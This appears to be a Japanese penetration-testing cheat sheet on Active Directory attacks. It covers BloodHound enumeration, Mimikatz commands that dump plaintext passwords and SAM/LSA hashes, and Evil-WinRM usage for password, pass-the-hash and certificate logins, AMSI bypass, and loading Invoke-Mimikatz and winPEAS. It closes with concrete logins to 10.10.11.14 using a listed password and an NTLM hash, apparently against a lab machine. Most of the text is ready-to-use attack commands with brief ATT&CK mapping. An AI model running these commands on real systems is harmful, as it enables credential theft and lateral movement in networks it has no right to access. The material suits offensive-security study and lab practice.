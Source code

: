 ## BloodHound
BloodHound ( https://github.com/BloodHoundAD/BloodHound) とは、グラフ理論にもとづき、Active Directory環境の意図せぬ関係性を明らかにするためのツールです。
これにより、低特権ユーザーをDomain Adminsへ権限昇格するなど、他のユーザーやグループへ移行するためのパスを発見することができます。
https://qiita.com/v_avenger/items/56ef4ae521af6579c058
ターゲットAD上でSharphound.exeを実行する
作成された日付入りのzipファイルをkali上に転送する
neo4jの起動


②BloodHoundの起動


転送したファイルをアップロードする

---

## Mimikatz
privilege::debug
sekurlsa::logonpasswords 
#hashes and plaintext passwords
lsadump::sam
lsadump::lsa /patch #both these dump SAM

#OneLiner
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"  
![image](https://github.com/user-attachments/assets/80751d7c-e8fe-4d86-a690-98426942fdff)
---

## Evil-Winrm
WinRMとは
「Windows Remote Management (WinRM)」とは、MicrosoftによるWS-Management Protocolの実装です。これにより、さまざまなベンダーのハードウェアとオペレーティングシステムの相互運用を可能にし、システム管理者の負担を軽減することを目指しています。
一方で、被害者のマシンで、WinRMサービスが有効になっている場合、環境内における「Lateral Movement（横展開)」に利用可能な方法の一つになります。
MITER ATT＆CKが示す「ATT&CK Matrix for Enterprise」では、「TA0008: Lateral Movement」戦術（Tactic）における戦法（Technique）の一つとして「T1028: Windows Remote Management」を分類しています。
また、「CAPEC（Common Attack Pattern Enumeration and Classification：共通攻撃パターン一覧）」では、「CAPEC-555：盗まれた資格情報を使用したリモートサービス」として分類しています。
要素名	概要	ID
Technique	攻撃に使われる技術（戦法）	T1028
Tactics	戦術：使われた技術によって達成する（目指す）ゴール	TA0008
		
		
		
		Evil-WinRM
Evil-WinRMツールは、WinRMサービスが有効（通常は5985/tcpで応答）かつ、資格情報とアクセス許可がある場合に使用することのできるリモートシェルプログラムです。
Evil-WinRMツールを介することで、リモートのWindowsサーバーで稼働しているWinRMサービスに接続することができ、インタラクティブなPowerShellを取得することができます。

##winrm service discovery
nmap -p5985,5986 <IP>
5985 - plaintext protocol
5986 - encrypted

##Login with password
evil-winrm -i <IP> -u user -p pass
evil-winrm -i <IP> -u user -p pass -S 
#if 5986 port is open

##Login with Hash
evil-winrm -i <IP> -u user -H ntlmhash

##Login with key
evil-winrm -i <IP> -c certificate.pem -k priv-key.pem -S 
#-c for public key and -k for private key

##Logs
evil-winrm -i <IP> -u user -p pass -l

##File upload and download
upload <file>
download <file> <filepath-kali> 
#not required to provide path all time

##Loading files direclty from Kali location
evil-winrm -i <IP> -u user -p pass -s /opt/privsc/powershell 
#場所は異なる場合があります
Bypass-4MSI
Invoke-Mimikatz.ps1
Invoke-Mimikatz

##evil-winrm commands
menu 
# to view commands
#実行するコマンドはいくつかあります
#これは、バイナリを実行する例です
evil-winrm -i <IP> -u user -p pass -e /opt/privsc
Bypass-4MSI
menu
Invoke-Binary /opt/privsc/winPEASx64.exe![image](https://github.com/user-attachments/assets/3f9ef784-7508-431b-9423-8619fc59e637)


パスワードログイン
evil-winrm -i 10.10.11.14 -u maya -p 'm4y4ngs4ri'
![image](https://github.com/user-attachments/assets/7020f363-a6ca-46b9-9f53-37b00809c45a)

ハッシュ値によるログイン
evil-winrm -i 10.10.11.14 -u localadmin -H 9aa582783780d1546d62f2d102daefae
![image](https://github.com/user-attachments/assets/422c7f6c-7d6a-47ae-a374-947c13d39b0b)

![image](https://github.com/user-attachments/assets/764171ae-cf49-4710-95a5-508452d37fe3)
